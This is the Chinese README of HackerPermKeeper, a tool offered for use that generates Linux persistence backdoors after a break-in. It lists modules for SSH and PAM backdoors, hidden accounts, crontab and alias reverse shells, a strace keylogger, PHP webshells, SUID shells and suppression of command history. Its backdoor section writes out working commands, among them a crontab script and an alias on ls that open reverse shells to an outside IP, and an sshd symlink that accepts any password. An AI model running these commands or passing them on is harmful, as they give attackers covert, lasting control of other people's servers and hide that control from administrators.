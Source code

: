 # :lock:	HackerPermKeeper  
### 黑客权限保持者
              _    _            _             _____                    _  __                         
             | |  | |          | |           |  __ \                  | |/ /                         
             | |__| | __ _  ___| | _____ _ __| |__) |__ _ __ _ __ ___ | ' / ___  ___ _ __   ___ _ __ 
             |  __  |/ _` |/ __| |/ / _ \ '__|  ___/ _ \ '__| '_ ` _ \|  < / _ \/ _ \ '_ \ / _ \ '__|
             | |  | | (_| | (__|   <  __/ |  | |  |  __/ |  | | | | | | . \  __/  __/ |_) |  __/ |   
             |_|  |_|\__,_|\___|_|\_\___|_|  |_|   \___|_|  |_| |_| |_|_|\_\___|\___| .__/ \___|_|   
                                                                                    | |              
                                                                                    |_|        
<br/>
  <p align="center">
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-www.taoyuan.cool-blue" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/RuoJi6/HackerPermKeeper/?icon=github&color=black">
    <img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper">
    <img src="https://img.shields.io/badge/python%E7%89%88%E6%9C%AC-3_and_2-green">
    <a href="https://flowus.cn/share/3505271f-a987-4fb1-9623-efe58dcc77ec">
     <img src="https://img.shields.io/badge/%E6%96%87%E5%BA%93-wiki-yellow">
    </a>
</p>
<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 
<br/><br/>


## 🚀上手指南

📢 请务必花一点时间阅读此文档，有助于你快速熟悉HackerPermKeeper
<br/><br/>

<details>
<summary><b>:lock:支持系统列表</b></summary>

| :lock:权限维持模块                      | centos             | Ubuntu             | 推荐指数                                             | 需要权限     | 备注                                                         | py2                | py3                |
| :-------------------------------------- | ------------------ | ------------------ | ---------------------------------------------------- | ------------ | ------------------------------------------------------------ | ------------------ | ------------------ |
| OpenSSH后门万能密码&记录密码            | :x:                | :heavy_check_mark: | :star:                                               | root         | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :heavy_check_mark: |
| PAM后门                                 | :x:                | :x:                | :star:                                               | :x:          | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :x:                |
| ssh软链接                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 容易被发现                                                   | :heavy_check_mark: | :heavy_check_mark: |
| ssh公私密钥                             | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | User         | 发现程度很难，参考了挖矿病毒                                 | :heavy_check_mark: | :heavy_check_mark: |
| 后门帐号                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:                           | root         | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] | :heavy_check_mark: | :heavy_check_mark: |
| crontab计划任务                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | User or root | 难以发现，通过执行计划任务                                   | :heavy_check_mark: | :heavy_check_mark: |
| Strace后门                              | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 键盘记录的后门                                               | :heavy_check_mark: | :heavy_check_mark: |
| Alias后门                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 别名后门，难以发现，但是需要用户去执行命令                   | :heavy_check_mark: | :heavy_check_mark: |
| Rootkit后门[检测]                       | :x:                | :x:                | :star:	:star:	:star:                           | root         | 难以发现，但是安装复杂，而且指定内核版本                     | :x:                | :x:                |
| 临时history不记录命令 or 永久不记录命令 | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star::star::star::star:         | root         | 有的服务器设置了空格记录执行命令，执行这个脚本快速设置不记录空格命令 | :heavy_check_mark: | :heavy_check_mark: |
| ssh软链接&crontab                       | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 快速生成软链接，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| check.py                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star::star:     | User         | 快速检测目标机器可以使用那个权限维持模块，并且检测当前机器处于docker还是k8s，并检测docker逃逸 | :heavy_check_mark: | :heavy_check_mark: |
| sshkey密钥&crontab                      | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | 快速生成ssh密钥，并且执行计划任务，每分钟判断当前密钥和多个文件是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| php权限维持不死免杀马                   | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | phpweb权限维持马                                             | :heavy_check_mark: | :heavy_check_mark: |
| Suid shell bash                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | root         | Suid shell bash脚本(低权限用户运行),可以和webshell进行联动一个低权限用户只需要执行一个文件就可以获取高权限 | :heavy_check_mark: | :heavy_check_mark: |

</details>


<details>
<summary><b>:closed_lock_with_key:权限的划分</b></summary>

| UID    | 数值                                                        | 比如：       |
| ------ | ----------------------------------------------------------- | ------------ |
| 0      | 超级管理员（root用户）                                      | root         |
| 1～999 | Linux系统将一些服务程序和系统任务分配给独立的系统用户来运行 | bin          |
| 1000   | 普通用户UID从1000开始                                       | www-data,www |

</details>

<details>
<summary><b>🐍安装要求</b></summary>
  
```
python3运行此项目[我自己的环境是Python 3.9.7]，但是运行权限维持模块脚本请看上面的表格
安装依赖
pip install -r requirements.txt
```
  
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/917d5afc-1775-4bcc-82d0-c9adb7cf89b7)

```
测试是否正常运行
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/d4c4b282-6570-4b3e-ba97-d27e7eaef42b)



</details>

<details>
<summary><b>✨使用演示</b></summary>

```
查看帮助
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/b2216e6b-c07c-4ee6-9768-3da79c6d9932)



```
快速判断目标机器适合的权限维持模块，运行 /check/ 目录下的check.py文件[这个不需要任何依赖环境，python3和python2都支持]
python check.py
python3 check.py
python2 check.py
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/09fd1694-c90a-49da-a9c9-47e7745463d2)




```
查看权限维持模块信息
python main.py -c 1
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/a15340cc-6586-4541-9345-55ef3a8873a8)



```
查看权限维持模详细块信息
python main.py -c 2
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/59a86236-1e03-4ea9-8b48-d14d57451317)


```
使用此项目生成权限维持脚本[在这之前，请先运行check.py脚本判断出目标机器适合什么类型权限维持的脚本]
python main.py -m 1   #选择模块[6.0更新之后，可以连续选择]
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/2cb4a5a6-76e7-4da5-8000-b8d080070914)

```
有的生成的脚本文件。需要在生成之后进行手动修改
比如：修改反弹shellip以及端口，后门用户密码，ssh密钥密码，ssh密钥等[此缺陷将会在第二个版本修复]
生成的文件会在payloads目录下产生
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8e9c3c6e-21a3-4a14-adc3-632f08da434a)


使用视频：https://www.bilibili.com/video/BV1fV411N7Qc/
</details>

<details>
<summary><b>:triangular_flag_on_post:	常见后门介绍</b></summary>

```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


history不记录执行命令
在输入命令时候，添加空格

ssh软链接&crontab
快速生成软链接[需要运行脚本成功后，一分钟连接]，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行

|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```

</details>


<details>
<summary><b>:warning:常见错误error</b></summary>

```
1、
使用ssh密钥后门连接的时候，出现这个错误，就是当前ip有在known_hosts中存在多个主机文件
解决：ssh-keygen -f "known_hosts文件" -R "目标Ip"
或者使用另外一台机器连接
```
![TON3EA2_MQW`94HRK53GZTQ](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/93dad03b-af7c-4e62-9dc8-87722504ce10)
删除成功
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/3342097e-b280-4b68-b90b-788a2de5cca6)

```
2、
下载的ssh密钥连接的时候出现安全性错误
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/76dfafe5-22a7-4698-b08e-fd5857a15641)
解决：修改权限 chmod 600 密钥文件，然后在连接
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8d9262ac-1555-466d-8ed7-197fb9521d43)

</details>

<details>
<summary><b>:zap:提交问题</b></summary>
有问题请提交issues<br/>
<a href="https://github.com/RuoJi6/HackerPermKeeper/issues"><img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper"></a>
<br/>
加我微信进开发者微信群聊 
<br/><img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-green">
</details>

<br/>

## :world_map:版本更新
```
1.0 权限维持
----------------------------------------------------------------------------------------------------------
2.0 1、利用成功之后删除文件
    2、命令配合使用[软链接+计划任务]
    3、判断当前系统有没有python环境
    4、使用ssh密钥的时候，在对方服务器生成的时候，生成完成之后，删除文件id_ed25519.pub和id_ed25519
    5、设置全局环境变量不记录空格命令[history]
    6、修改在不同环境下，main.py运行bug
    7、修复计划任务，在反弹shell的时候，出现的python版本问题
    8、ssh密钥权限维持模块，bug修复，如果是出现不是root，权限也可以成功
    9、修复check.py脚本检测普通用户权限
----------------------------------------------------------------------------------------------------------
3.0 1、php web权限维持马[首页马，加密马内存马，不死马]
    2、模块配合使用[添加用户加计划任务，ssh密钥加计划任务]
    3、在计划任务配合使用的时候，发现还需要判断文件有没有加锁
----------------------------------------------------------------------------------------------------------
4.0 1、修改ssh密钥以及添加用户中重新运行时候，检测是否加锁解锁操作
----------------------------------------------------------------------------------------------------------
5.0 1、检测docker，k8s环境
    2、检测docker逃逸，特权逃逸，Docker Socket逃逸，docker procfs逃逸[以后会添加针对k8s横向以及逃逸]
    3、别名权限维持文件不存在bug修复
    4、修复检测脚本bug
----------------------------------------------------------------------------------------------------------
6.0 1、Suid shell bash权限维持
    2、重写生成代码(连续生成)
    3、添加不记录历史命令临时操作，同时可以批量删除指定的.bash_history文件中的历史记录
    4、修改检查脚本(添加检查环境)
    5、使用tabulate模块进行格式化输出
```


<br/>

## :beginner:开发日志
<a href="[https://flowus.cn/share/3505271f-a987-4fb1-9623-efe58dcc77ec](https://flowus.cn/ruoji/share/e6d74e95-980b-462c-92ca-f50ce0ee420c)">点击跳转wiki</a>

<br/>

## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/RuoJi6/HackerPermKeeper.svg)](https://starchart.cc/RuoJi6/HackerPermKeeper)


## Stargazers

[![Stargazers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/stars/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/stargazers)


## Forkers

[![Forkers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/forks/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/network/members)


<a href="https://github.com/RuoJi6">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=RuoJi6"/>
</a>
<a href="https://github.com/RuoJi6/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=RuoJi6&layout=compact&langs_count=8&card_width=320" />
</a>

